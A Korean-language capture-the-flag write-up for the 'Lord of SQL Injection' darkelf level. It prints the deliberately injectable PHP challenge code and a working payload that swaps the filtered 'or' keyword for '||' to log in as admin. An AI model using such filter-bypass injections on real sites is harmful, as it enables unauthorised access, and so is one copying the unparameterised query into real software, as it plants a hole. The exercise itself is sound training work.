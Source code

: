 Lord of SQL Injection No.6 - darkelf
=============
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("darkelf");
  highlight_file(__FILE__);
?>
```
위 문제에서 알 수 있는 것
-------------
preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.
preg_match로 인해 or and가 대소문자 구분없이 $_GET[pw]에 들어가 있으면 HeHe라고 뜨며 문제풀이에 실패하게 된다._
id값은 고정되어 있으므로 pw에 값을 넣어 조작해야한다.
DB에 저장된 id 값이 admin이 되도록 조작하면 문제가 풀린다.

문제 풀이 법
-------------
1.or and 우회
or은 기호로 파이프라인 두개와 같고(||) and는 기호로 앤퍼센트 두개와 같다.(&&)

  los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=123'|| id='admin'-- -
  or이 들어갈 부분을 ||으로 대체
